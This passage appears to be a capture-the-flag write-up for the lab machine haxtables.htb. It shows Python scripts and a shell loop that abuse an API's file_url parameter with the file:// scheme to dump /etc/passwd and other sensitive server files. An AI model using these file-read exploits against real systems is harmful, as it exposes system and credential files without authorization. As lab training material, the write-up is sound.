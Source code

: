 Visted the `http://10.10.11.198/index.php?page=api` which appeared to be a data conversion site. This page suggests a domain name for the api so we had to add that to the hosts file. 
```shell
# add domain and subdomain to hosts file
echo '10.10.11.198 haxtables.htb' | sudo tee -a /etc/hosts
echo "10.10.11.198 haxtables.htb" | sudo sed -i 's/haxtables.htb/& api.haxtables.htb/' /etc/hosts
```

#### Exploitation
Studied the page and figured that a few sample Python scripts for calling the api could be a foothold vector. Collected these scripts and dubbed them as `str2hex-data_file.py`  and `str2hex-file_url.py`. The former was disclosing information on the attacker's machine while the latter when switched to the `file` scheme disclosed information on the victim's machine. 
[str2hex-data_file.py](#)
```python
import requests

data = {
  'action': 'str2hex'
}

f = {'data_file' : open('/etc/passwd', 'rb')}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', data=data, files=f)
print(response.text)
```
[str2hex-file_url.py](#)
```python
import requests

json_data = {
  'action': 'str2hex',
  'file_url' : 'file:///etc/passwd'
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(response.text)
```
Create a wordlist of some interesting file paths in linux and modify `str2hex-file_url.py` to automate the dump of these files.
[modified-str2hex-file_url.py](#)
```python
import requests, sys

json_data = {
  'action': 'str2hex',
  'file_url': f'file://{sys.argv[1]}',
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php',json=json_data)
print(response.text)
```
[file-extractor.sh](#)
```shell
# dump content of interesting files
for file in $(cat file_list); do python3 modified-str2hex-file_url.py $file | jq .data | xxd -r -p && echo ''; done 2>&1
```
Let's store and investigate the interesting files. Notice another subdomain `image.haxtables.htb` check it out. It throws a `403 Forbidden` error. 
```shell
# get /etc/passwd
python3 modified-str2hex-file_url.py /etc/passwd | jq .data | xxd -r -p | grep sh$
---snip---
root:x:0:0:root:/root:/bin/bash
svc:x:1000:1000:svc:/home/svc:/bin/bash
```